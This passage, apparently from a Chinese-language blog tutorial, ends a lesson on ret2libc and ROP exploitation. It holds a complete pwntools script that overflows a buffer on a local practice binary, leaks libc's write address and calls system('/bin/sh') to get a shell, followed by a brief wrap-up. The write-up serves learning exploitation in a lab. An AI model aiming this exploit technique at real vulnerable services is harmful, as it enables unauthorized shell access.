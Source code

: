 	binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))	# /bin/sh字符串在内存中的地址

最终的利用脚本

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

payload_len = 140 
write_plt_addr = elf.symbols['write']
print "write plt addr " + hex(write_plt_addr)
#wirte_plt = 0x08048300
#write_got = 0x8049738
write_plt_got_addr = elf.got['write']
print "wirte plt got addr " + hex(write_plt_got_addr)
vul_func = 0x0804841b

payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)

print "[\*] begin to leak write_addr function address...\n"
p.send(payload)

write_addr = u32(p.recv(4))
print "[+] the write_addr function address is " + hex(write_addr)

system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print "[+] the system_addr function address is " + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print "[+] the /bin/sh str address is " + hex(binsh_addr)

print "[\*] begin to get shell...\n"
payload2 = "A"\*payload_len + p32(system_addr) + p32(vul_func) + p32(binsh_addr)

p.send(payload2)

p.interactive()</pre>

这个脚本中的payload2的内存布局就是传统的ret2libc的利用布局

运行之后成功拿到shell

![ret2libc]({{ '/images/201803/ret2libc_2_5.png' | prepend: site.baseurl }})

#### 0x03 总结 ####

通过本地的实践操作，终于是理清了这2个技术中的细节，也解决了不少疑惑，后续还会带来其他的漏洞类型以及利用技术，这篇介绍的rop算是一种，后续还会有其他类型的

KEEP GOING！！！


